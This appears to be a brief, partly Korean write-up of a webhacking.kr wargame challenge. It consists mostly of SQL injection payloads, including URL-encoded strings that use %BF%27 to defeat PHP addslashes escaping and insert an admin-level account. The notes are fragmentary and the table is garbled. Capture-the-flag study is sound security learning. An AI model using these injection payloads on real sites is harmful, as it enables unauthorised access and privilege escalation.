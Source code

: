 # 59

:::image type="content" source="webhacking.kr/img/59_0.PNG" alt-text="1":::

1. Steps 
    1. Join으로 lv이 admin인 친구 하나 삽입
        1. id가 뭐시기고 lv 이 admin이 머시기인놈을 넣어줌
    1. id로 와 phone 값으로 값을 가져옴


|id  |phnoe number  |
|---------|---------|
|Join     |    |         |
|Login    |   %BF%27 |  garbage|

0x61 64 6d 69 6e
97 100 109 105 110

a7 ,1',reverse(minda))--

'

%31%2c%31%2c%61%64%6d%69%6e **%27**%29%2d%2d

%31%2c%31%2c%61%64%6d%69%6e **%BF%27**%29%2d%2d



how to bypass addslashes => "%BF%27"//
[This is the hint](https://developpaper.com/question/sqli-how-to-bypass-addslashes/)
